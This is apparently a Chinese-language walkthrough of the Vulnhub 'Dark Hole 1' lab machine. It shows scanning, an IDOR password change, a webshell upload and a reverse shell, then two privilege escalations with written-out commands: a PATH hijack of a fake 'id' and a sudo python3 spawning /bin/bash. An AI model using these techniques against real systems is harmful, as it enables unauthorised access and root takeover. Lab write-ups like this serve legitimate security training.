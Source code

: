 ```yaml
---
layout: post
title: Dark Hole 1
subtitle: Dark Hole 1
date: 2025-07-14 16:49
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - Vulnhub
published: true
number headings: first-level 2, max 4, 1.1., auto
---
```

主机扫描，发现ip `192.168.163.134`

![image.png](https://img.ghostliner.top/jfD8gH.png)

端口扫描，发现80和22端口

![image.png](https://img.ghostliner.top/rlHix8.png)

扫描目录

```shell
dirb http://192.168.163.134
nikto -h 192.168.163.134
```

发现目录：

```
http://192.168.163.134/config/
http://192.168.163.134/upload/
http://192.168.163.134/login.php
```

对站点进行指纹识别，无发现，bp爆破用户名密码失败

尝试注册成功

登陆成功后地址为: <http://192.168.163.134/dashboard.php?id=2>

遍历页面id无效，只有一个页面，可以更改用户名、邮件和密码，sqlmap测试密码时发现隐藏字段id参数，bp遍历id尝试更改其他用户密码。

admin登录成功，可以上传文件

上传一句话木马，经测试可以上传 `shell.phtml`

蚁剑连接，反弹shell

![image.png](https://img.ghostliner.top/GvKSmS.png)

反弹成功，查看数据库未发现有效信息

![image.png](https://img.ghostliner.top/7dwDHN.png)

查看john家目录，发现特殊权限的 `toto`

![image.png](https://img.ghostliner.top/fyi8kc.png)

toto疑似使用 `id`命令，更改环境变量修改为我们自定义的 `id`命令

```shell
echo '/bin/bash' > /tmp/id
chmod +x /tmp/id
export PATH=/tmp:$PATH
./toto
```

提权成功，获取到密码

![image.png](https://img.ghostliner.top/Wva3ra.png)

获取到flag

![image.png](https://img.ghostliner.top/MtRwdk.png)

root提权

![image.png](https://img.ghostliner.top/D6WblV.png)

```shell
echo 'import os;os.system("/bin/bash")' > file.py
sudo /usr/bin/python3 /home/john/file.py
```

root提权成功，查看最终flag

![image.png](https://img.ghostliner.top/Ifoh5M.png)
